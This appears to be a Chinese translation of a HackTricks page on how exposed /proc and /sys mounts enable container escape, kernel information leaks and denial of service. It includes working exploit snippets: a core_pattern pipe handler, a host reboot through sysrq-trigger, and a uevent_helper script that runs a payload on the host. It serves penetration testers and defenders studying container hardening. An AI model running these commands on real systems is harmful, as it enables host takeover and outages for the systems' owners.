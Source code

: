 <details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>


在没有适当的命名空间隔离的情况下暴露`/proc`和`/sys`会带来重大安全风险，包括增加攻击面和信息泄露。这些目录包含敏感文件，如果配置错误或被未经授权的用户访问，可能导致容器逃逸、主机修改或提供有助于进一步攻击的信息。例如，不正确地挂载`-v /proc:/host/proc`可能会绕过AppArmor保护，因为其基于路径的特性，使`/host/proc`无保护。

**您可以在[https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)找到每个潜在漏洞的更多详细信息。**

# procfs漏洞

## `/proc/sys`
该目录允许访问以修改内核变量，通常通过`sysctl(2)`进行，包含几个相关子目录：

### **`/proc/sys/kernel/core_pattern`**
- 在[core(5)](https://man7.org/linux/man-pages/man5/core.5.html)中描述。
- 允许定义一个程序，在生成核心文件时使用前128个字节作为参数。如果文件以管道`|`开头，这可能导致代码执行。
- **测试和利用示例**：
```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # 测试写入权限
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # 设置自定义处理程序
sleep 5 && ./crash & # 触发处理程序
```

### **`/proc/sys/kernel/modprobe`**
- 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中详细描述。
- 包含内核模块加载器的路径，用于加载内核模块。
- **检查访问权限示例**：
```bash
ls -l $(cat /proc/sys/kernel/modprobe) # 检查对modprobe的访问权限
```

### **`/proc/sys/vm/panic_on_oom`**
- 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中引用。
- 一个全局标志，控制当发生OOM条件时内核是崩溃还是调用OOM killer。

### **`/proc/sys/fs`**
- 根据[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)，包含有关文件系统的选项和信息。
- 写入权限可能导致对主机的各种拒绝服务攻击。

### **`/proc/sys/fs/binfmt_misc`**
- 允许根据其魔术数字为非本机二进制格式注册解释器。
- 如果`/proc/sys/fs/binfmt_misc/register`可写，可能导致提权或获取root shell访问。
- 相关利用和解释：
- [通过binfmt_misc实现的简易rootkit](https://github.com/toffan/binfmt_misc)
- 深入教程：[视频链接](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

## `/proc`中的其他内容

### **`/proc/config.gz`**
- 如果启用了`CONFIG_IKCONFIG_PROC`，可能会显示内核配置。
- 对攻击者有用，以识别运行内核中的漏洞。

### **`/proc/sysrq-trigger`**
- 允许调用Sysrq命令，可能导致立即系统重启或其他关键操作。
- **重启主机示例**：
```bash
echo b > /proc/sysrq-trigger # 重启主机
```

### **`/proc/kmsg`**
- 显示内核环形缓冲区消息。
- 可帮助内核利用、地址泄漏和提供敏感系统信息。

### **`/proc/kallsyms`**
- 列出内核导出的符号及其地址。
- 对于内核利用开发至关重要，特别是用于克服KASLR。
- 地址信息受`kptr_restrict`设置为`1`或`2`的限制。
- 详细信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

### **`/proc/[pid]/mem`**
- 与内核内存设备`/dev/mem`交互。
- 在历史上容易受到提权攻击的影响。
- 更多信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

### **`/proc/kcore`**
- 以ELF核心格式表示系统的物理内存。
- 读取可能泄露主机系统和其他容器的内存内容。
- 大文件大小可能导致读取问题或软件崩溃。
- 详细用法请参阅[2019年转储/proc/kcore](https://schlafwandler.github.io/posts/dumping-/proc/kcore/)。

### **`/proc/kmem`**
- `/dev/kmem`的替代接口，表示内核虚拟内存。
- 允许读取和写入，因此可以直接修改内核内存。

### **`/proc/mem`**
- `/dev/mem`的替代接口，表示物理内存。
- 允许读取和写入，修改所有内存需要将虚拟地址解析为物理地址。

### **`/proc/sched_debug`**
- 返回进程调度信息，绕过PID命名空间保护。
- 显示进程名称、ID和cgroup标识符。

### **`/proc/[pid]/mountinfo`**
- 提供有关进程挂载命名空间中挂载点的信息。
- 显示容器`rootfs`或镜像的位置。

## `/sys`漏洞

### **`/sys/kernel/uevent_helper`**
- 用于处理内核设备`uevents`。
- 写入`/sys/kernel/uevent_helper`可以在`uevent`触发时执行任意脚本。
- **利用示例**：
%%%bash
# 创建有效载荷
echo "#!/bin/sh" > /evil-helper
echo "ps > /output" >> /evil-helper
chmod +x /evil-helper
# 从OverlayFS挂载中找到容器的主机路径
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
# 将uevent_helper设置为恶意助手
echo "$host_path/evil-helper" > /sys/kernel/uevent_helper
# 触发uevent
echo change > /sys/class/mem/null/uevent
# 读取输出
cat /output
%%%

### **`/sys/class/thermal`**
- 控制温度设置，可能导致拒绝服务攻击或物理损坏。

### **`/sys/kernel/vmcoreinfo`**
- 泄漏内核地址，可能破坏KASLR。

### **`/sys/kernel/security`**
- 包含`securityfs`接口，允许配置Linux安全模块，如AppArmor。
- 访问可能使容器能够禁用其MAC系统。

### **`/sys/firmware/efi/vars`和`/sys/firmware/efi/efivars`**
- 提供与NVRAM中的EFI变量交互的接口。
- 配置错误或利用可能导致笔记本电脑变砖或主机机器无法启动。

### **`/sys/kernel/debug`**
- `debugfs`为内核提供“无规则”调试接口。
- 由于其不受限制的性质，存在安全问题的历史。

## 参考资料
* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [理解和加固Linux容器](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [滥用特权和非特权Linux容器](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)


<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
